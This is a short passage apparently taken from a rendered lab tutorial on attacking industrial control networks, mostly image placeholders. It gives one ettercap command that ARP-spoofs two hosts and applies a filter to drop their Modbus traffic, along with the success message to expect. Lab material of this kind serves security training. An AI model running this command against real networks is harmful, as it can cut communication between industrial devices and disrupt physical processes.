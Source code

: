 <p align="center"><img src=images/Picture106.png></p>

<div align="center">Run ettercap -T -q -F dropmodbustraffic.ef -M arp:remote -I eth0 /100.100.100.2// /100.100.100.4//&</div>
<p align="center"><img src=images/Picture107.png></p>

<div align="center">You should see the message “MODBUS TRAFFIC FOUND -> DROPPED MODBUS TRAFFIC” as the packets are found and dropped</div>